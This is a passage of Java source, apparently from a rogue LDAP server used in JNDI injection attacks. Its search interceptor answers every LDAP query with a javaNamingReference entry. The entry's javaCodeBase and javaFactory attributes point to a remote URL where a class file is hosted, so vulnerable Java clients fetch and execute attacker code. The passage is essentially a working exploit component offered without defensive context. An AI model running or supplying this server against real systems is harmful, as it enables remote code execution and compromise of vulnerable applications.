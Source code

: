```java
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        /**
         *
         */
        public OperationInterceptor(URL cb) {
            this.codebase = cb;
        }

        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            } catch (Exception e1) {
                e1.printStackTrace();
            }

        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if (refPos > 0) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```
